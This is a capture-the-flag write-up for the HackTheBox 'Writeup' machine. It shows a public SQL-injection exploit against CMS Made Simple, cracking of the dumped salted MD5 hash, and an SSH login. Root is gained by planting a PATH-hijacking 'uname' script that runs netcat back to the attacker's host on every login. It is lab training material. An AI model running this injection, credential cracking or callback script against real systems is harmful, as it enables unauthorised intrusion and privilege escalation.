 ```yaml
---
title: "Writeup - HackTheBox"
date: 2019-10-12T17:39:53+02:00
tags:
    - "CTF"
    - "HackTheBox"
    - "SQL"
    - "exploiting"
draft: false
---
```


Writeup is an easy Linux machine on HackTheBox. It's about enumeration and
exploitation.

# User

As always, the first thing to do is a port scan with nmap:
```
$ nmap -A 10.10.10.138
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-12 14:29 EDT
Nmap scan report for 10.10.10.138
Host is up (0.060s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.23 seconds
```

Let's visit the web server:

![Pagina web](/images/hackthebox/writeup/web.png)

The website index does not contain anything interesting. Let's visit the
`writeup` directory that `nmap` found in the `robots.txt` file:

![Writeup directory](/images/hackthebox/writeup/web-writeup.png)

The links in the list are to the following urls:
```
http://10.10.10.138/writeup/index.php?page=ypuffy
http://10.10.10.138/writeup/index.php?page=blue
http://10.10.10.138/writeup/index.php?page=writeup
```
and they only contains text.

Trying some basic fuzzing on the `page` parameter gives us only 404 pages. Even
local file inclusion does not work.
Let's take a step back and navigate through the source code of the website.
In the `head` section there are references to `CMS made simple`
```html
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

A quick search with `searchsploit` gives us a long list of exploits:
```
$ searchsploit cms made simple
-------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                        |  Path
                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------- ----------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)    | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                               | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                               | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                            | exploits/php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                | exploits/php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities               | exploits/php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                     | exploits/php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                                           | exploits/php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                  | exploits/php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                      | exploits/php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion                                          | exploits/php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure                                         | exploits/php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting                   | exploits/php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery                                      | exploits/php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                         | exploits/php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery               | exploits/php/webapps/34068.html
CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution                                         | exploits/php/webapps/44192.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                       | exploits/php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                                              | exploits/php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                      | exploits/php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                 | exploits/php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload        | exploits/php/webapps/46546.py
-------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Given that the date of the copyright string is 2019, it must the most recent
exploit, so let's download it with:
```
$ searchsploit -m 46635
```

Reading the code we can see that it exploits a SQL injection vulnerabilty in the
`moduleinterface.php` file. More specifically, it's a time based blind SQL
injection, you can find a good explanation
[here](http://www.sqlinjection.net/time-based/).

Let's then run the exploit:
```
$ python2 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

The exploit finds the username of the administration panel, the password hash
and the salt used to hash the password. The hash format is `MD5($SALT.$PASSWORD)`
, let's use `hashcat` to try to bruteforce it:
```
$ hashcat --force -m 20 hash.txt rockyou.txt
```

It only takes a couple of seconds with a gpu and the password is `raykayjay9`.
Let's try the password on `ssh`:

```
$ ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$
```

And here's the flag:
```
jkr@writeup:~$ cat user.txt
d4e493fd4068afc9eb1aa6a55319f978
```

# Root

The first thing that I usually do is a basic local enumeration with tools like
`LinEnum` and `pspy`. HackTheBox machines do not have internet access, so let's
copy then on the machine with `scp`:
```
$ scp LinEnum jrk@10.10.10.138:~
$ scp pspy64 jrk@10.10.10.138:~
```

`LinEnum` does not give us something interesting. At first, also `pspy` was not
interesting. After a couple of minutes I connected using another `ssh`
connection and something interesting popped out on `pspy`:


![pspy](/images/hackthebox/writeup/pspy.png)

This command gets executed on every `ssh` connection:
```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:\
    /usr/sbin:/usr/bin:/sbin:/bin \
    run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

The `run-parts` command runs every file present in the indicated directory,
`/etc/update-motd.d` in our case, and the output of it gets written in
`/run/motd.dynamic.new`.

If we could write a script in `/etc/update-motd.d` then it's done! Let's check
the permissions on the directory:
```
$ ls -la /etc/update-motd.d/
total 12
drwxr-xr-x  2 root root 4096 Apr 19 04:12 .
drwxr-xr-x 81 root root 4096 Aug 23 05:16 ..
-rwxr-xr-x  1 root root   23 Jun  3  2018 10-uname
```

Sadly, only `root` is allowed to write. Let's inspect `10-uname`:
```bash
#!/bin/sh
uname -rnsom
```
It just runs the `uname` command. After a bit of thinking, I remembered that the
command that gets executed on every ssh connection had a custom `PATH` variable,
so I thought that if I can write an executable called `uname` in one of the
directories, It could be executed instead of the original one. Luckily, the
first one in the `PATH` variable is writeable by us:
```
jkr@writeup:~$ ls -lad /usr/local/sbin
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 /usr/local/sbin
```

Let's then write the file (`/usr/local/sbin/uname`) that will gets us a `root`
connection using `netcat`
```
#!/bin/sh
nc 10.10.14.25 1337
```

After saving it, give it execute permissions with `chmod +x` and run `nc -lnvp
1337` on your machine to listen for the connection. After a successful `ssh`
connection the custom `uname` script gets executed an we can read the flag:
```
$ cat /root/root.txt
eeba47f60b48ef92b734f9b6198d7226
```

Thanks for the reading, see you in the next one!

